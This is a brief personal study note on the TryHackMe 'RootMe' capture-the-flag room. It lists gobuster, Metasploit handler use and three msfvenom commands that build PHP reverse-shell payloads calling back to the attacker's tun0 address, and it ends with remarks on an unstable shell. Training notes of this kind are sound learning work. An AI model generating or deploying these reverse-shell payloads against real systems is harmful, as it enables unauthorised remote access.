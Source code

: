 # R

* Remember for web/general/security
* .todo: metasploit dns sqlmap
* .todo: windows Linux web shell
* web general | terminology may have to be extracted

## Overconfidence

--- https://tryhackme.com/room/rrootme

* `gobuster -t 50`
* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4455 -o revshell.php`
* exploit/multi/handler
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4455 -o revshell2.php`
* `msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4455 -o revshell3.php5`
* `sudo bash -c "id"`
* https://www.revshells.com/
* TL;DR. Nothing explained to improve the shell worked. Could not run python commands, the shell was crashing. Had to use a web shell to run python commands. The meterpreter didn't work "as expected". The reverse tcp worked but it wasn't a good experience.
* writeups